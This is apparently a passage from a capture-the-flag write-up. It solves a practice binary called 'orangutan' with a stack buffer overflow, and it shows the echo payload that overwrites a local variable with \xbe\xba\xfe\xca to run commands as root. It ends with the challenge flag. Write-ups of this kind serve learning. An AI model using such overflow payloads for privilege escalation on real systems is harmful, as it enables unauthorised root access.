

> I saw the orangutan binary residing in the home folder of nueve and changed its permission to be able to execute the binary:

```
nueve@svos:~$ chmod +x ~/orangutan
nueve@svos:~$ ./orangutan
hello pwner
pwnme if u can ;)
```

> The binary expects us to pwn it, I piped orangutan after extracting the orangutan ascii art into a different file called clean_orangutan, to the binary and it threw a seg fault:



> I immediately thought that this must be a Buffer Overflow vulnerability. I spawned Ghidra to perform binary analysis and view the decompilation results.



> There is a 24 byte memory allocation in the stack for the local_28 variable which we can supply arbitrary input to and cause a seg fault (bus error) via running the actual binary in the command line. After some static code analysis it is obvious that I need to pass a specific amount of bytes to fill up the local_28 buffer and then overflow to the local_10 variable in order to execute the otherwise unreachable code execution as uid 0 (root user) by passing the if statement.

```
echo -e "hellovaslhowareyoueveryt\xbe\xba\xfe\xca\nls /root" | ./orangutan
```

> 24 bytes of characters, the overflow hex values that will be used by local_10 to pass the if statement. After the payload I break line and then supply my command of choice to be executed as root.




> Simply doing a cat on the flag10.txt gave me the last flag and the chance to win the OSCP giveaway which I actually did!

```
flag10{33c9661bfd}
```
